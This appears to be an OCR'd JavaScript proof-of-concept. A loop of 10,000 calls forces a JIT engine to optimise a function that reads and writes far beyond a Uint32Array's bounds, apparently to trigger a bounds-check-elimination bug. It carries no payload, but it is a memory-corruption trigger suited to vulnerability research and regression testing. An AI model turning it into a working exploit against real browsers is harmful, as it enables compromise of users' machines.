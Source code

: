
function opt(arr, idx) {
    ((arr.length === 0x7ffffff0 && arr[0x7ffffff0]) || false) && (arr.length === 0x7ffffff0 && arr[0x7ffffff1]) || (arr[0x11111111] = 0x1234);
}

function main() {
    let arr = new Uint32Array(1);
    for (let i = 0; i < 10000; i++) {
        opt(arr);
    }
}

main();
